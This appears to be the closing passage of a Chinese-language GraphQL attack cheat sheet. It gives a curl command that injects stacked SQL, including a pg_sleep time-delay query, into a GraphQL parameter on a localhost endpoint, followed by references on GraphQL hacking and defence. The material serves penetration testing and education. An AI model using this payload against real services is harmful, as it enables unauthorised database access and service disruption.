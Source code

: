 简单的graphql字段内SQL注入。

```powershell
curl -X POST http://localhost:8080/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(30\)%3B--%27
```

## 参考资料

* [GraphQL简介](https://graphql.org/learn/)
* [GraphQL内省](https://graphql.org/learn/introspection/)
* [API黑客攻击GraphQL - @ghostlulz - 2019年6月8日](https://medium.com/@ghostlulzhacks/api-hacking-graphql-7b2866ba1cf2)
* [通过参数走私绕过GraphQL账户级权限 - 2018年3月14日 - @Detectify](https://labs.detectify.com/2018/03/14/graphql-abuse/)
* [发现GraphQL端点和SQL注入漏洞 - 2018年9月23日 - Matías Choren](https://medium.com/@localh0t/discovering-graphql-endpoints-and-sqli-vulnerabilities-5d39f26cea2e)
* [保护您的GraphQL API免受恶意查询 - 2018年2月21日 - Max Stoiber](https://blog.apollographql.com/securing-your-graphql-api-from-malicious-queries-16130a324a6b)
* [通过JSON类型进行GraphQL NoSQL注入 - 2017年6月12日 - Pete Corey](http://www.petecorey.com/blog/2017/06/12/graphql-nosql-injection-through-json-types/)
